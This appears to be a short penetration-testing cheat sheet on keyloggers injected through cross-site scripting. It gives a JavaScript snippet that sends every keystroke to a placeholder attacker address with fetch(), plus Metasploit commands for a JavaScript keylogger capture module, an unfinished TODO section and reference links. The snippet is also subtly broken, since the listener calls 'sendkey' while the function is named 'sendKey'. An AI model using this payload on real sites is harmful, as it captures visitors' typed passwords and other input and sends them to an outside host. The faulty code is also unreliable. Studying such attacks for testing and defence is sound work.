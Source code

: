 # Keyloggers

Search Tag(s): #helpers #xss

## 01 - Scripts

```js
function sendKey(event) {
	fetch("http[s]://<IP>/data?k=" + event.key);
}
document.addEventListener('keydown', sendkey);
```

## 02 - Metasploit

TODO: Fill this info

```
msf > use auxiliary/server/capture/http_javascript_keylogger

msf auxiliary(server/capture/http_javascript_keylogger) > options
```

---
## References

- [IMVK: Cross Site Scripting – Exploitation ](https://imvk.net/en/infosec/ethical-web-hacking/cross-site-scripting-exploitation)

- [Geeky much: Cross-site Scripting](https://medium.com/secure-you/cross-site-scripting-b64f440ae060)

- [Rapid7: Metasploit JavaScript Keylogger](https://www.rapid7.com/blog/post/2012/02/21/metasploit-javascript-keylogger/)